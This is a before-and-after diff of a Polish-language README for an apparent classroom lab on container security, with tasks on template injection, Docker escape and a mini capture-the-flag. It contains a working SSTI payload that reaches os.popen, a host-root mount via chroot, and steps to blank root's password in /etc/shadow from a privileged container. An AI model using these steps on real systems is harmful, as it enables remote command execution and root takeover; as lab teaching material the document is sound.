

Before and after one commit to jd-kowal/Docker-Escape, a Markdown page: README.md, the part around the change printed below. Shown: that part at 92% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -40,30 +41,61 @@ docker exec -itu adam ubuntu-dind bash
 
 ## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
 Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
-Następnie ... <br />
+Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
+Do następnej czynności będziemy potrzebowali poniższej komendy. <br />
+
 ```
-tutaj ten długi wąż
+"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
 ```
 
-**Odpowiedź** - wyślij ss, który pokaże wszystkie pliki z aktualnego katalogu (wpisz tą komendę w popen())
+Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.
+
+**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen())
 
 ## Task 2 - Docker Escape & Privilege Escalation
 **TIP** - proponujemy przejście z wykonywaniem zadań do terminala. <br />
 Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />
 
-Będąc w kontenerze musimy wywołać komendę:
+Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}:
 ```
-    docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
+su root
 ```
+Sprawdź listę dostępnych obrazów:
+```
+docker images
+```
+Pobierz obraz dockera z repozytorium:
+```
+docker pull ubuntu
+```
+<< SS >>
+Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
+```
+docker images
+```
+Będąc na użytkowniku **adam** uruchom kontener {**DE**}:
+```
+docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu bash
+```
+Teraz jesteś wewnątrz swojego kontenera, którego przed chwilą stworzyłeś. Możesz to sprawdzić za pomocą komend ``whoami`` oraz ``hostname``. <br />
+Przykładowy ScreenShot znajduje się poniżej.
+<< ScreenShot >>
+Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />
+<><><><><><><>
 Musimy zainstalować w kontenerze wybrany przez siebie edytor tekstowy (np. vim, nano). <br />
 Za pomocą edytora tekstowego otwieramy plik ``/etc/shadow``. <br />
-
-
+Trzeba usunąć część wskazującą na obecność hasła root-a w pliku shadow {**PE**}.
+<< ScreenShot >>
+Wyjdź z kontenera za pomocą ``exit``. <br />
+Zmień użytkownika na root-a {**PE**}:
+```
+su root
+```
 
 **Odpowiedź** - wyślij ss potwierdzającego twoje uprawnienia root-a.
 
 ## Task 3 - Mini-CTF
-Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajdować plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />
+Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />
 
 **Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga.
 
````
Also changed, not shown: other parts of README.md (+1 -0 lines).
